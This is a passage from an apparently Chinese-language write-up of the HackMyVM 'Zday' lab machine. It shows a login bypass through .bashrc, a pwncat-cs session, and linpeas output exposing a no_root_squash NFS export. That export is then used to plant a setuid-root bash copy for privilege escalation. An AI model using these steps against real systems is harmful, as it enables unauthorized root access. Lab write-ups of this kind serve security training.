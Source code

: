 为了能够使用 bash 来进行交互，需要修改 `/home/fogproject/.bashrc` 文件的最后一行

```bash
$ cat /home/fogproject/.bashrc | tail -n 2
echo -e "You seem to be using the'fogproject'system account to logon and work \non your FOG server system.\n\nIt's NOT recommended to use this account! Please create a new \naccount for administrative tasks.\n\nIf you re-run the installer it would reset the 'fog' account \npassword and therefore lock you out of the system!\n\nTake care, \nyour FOGproject team"
exit 1
$ vi /home/fogproject/.bashrc
```

然后继续使用 `/bin/bash` 进行登录

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs fogproject@192.168.56.130
[23:34:25] Welcome to pwncat 🐈!
Password: ********************
[23:34:33] 192.168.56.130:22: normalizing shell path
           192.168.56.130:22: registered new host w/ db
(local) pwncat$ back
(remote) fogproject@zday:/home/fogproject$ whoami
fogproject
```

## NFS 权限缺陷

上传 `linpeas.sh` 进行自动化分析

```bash
╔══════════╣ Analyzing NFS Exports Files (limit 70)
-e Connected NFS Mounts:
nfsd /proc/fs/nfsd nfsd rw,relatime 0 0
-rw-r--r-- 1 root root 174 Mar 10  2021 /etc/exports
/images *(ro,sync,no_wdelay,no_subtree_check,insecure_locks,no_root_squash,insecure,fsid=0)
/images/dev *(rw,async,no_wdelay,no_subtree_check,no_root_squash,insecure,fsid=1)
```

尝试加以利用

```bash
# Machine
(remote) fogproject@zday:/home/fogproject$ cp /bin/bash /images/dev/
(remote) fogproject@zday:/home/fogproject$ ls -lh /images/dev/
total 1.2M
-rwxr-xr-x 1 fogproject fogproject 1.2M Apr  9 11:50 bash
drwxrwxrwx 2 fogproject root       4.0K Mar 10  2021 postinitscripts

# Kali
┌──(randark ㉿ kali)-[~]
└─$ sudo chmod 4755 /mnt/HMV-Zday-images-dev/bash

┌──(randark ㉿ kali)-[~]
└─$ sudo chown root:root /mnt/HMV-Zday-images-dev/bash

┌──(randark ㉿ kali)-[~]
└─$ ls -lh /mnt/HMV-Zday-images-dev
总计 1.2M
-rwxr-xr-x 1 root root 1.2M  4 月 9 日 23:50 bash
drwxrwxrwx 2 1001 root 4.0K 2021 年 3 月 10 日 postinitscripts
```
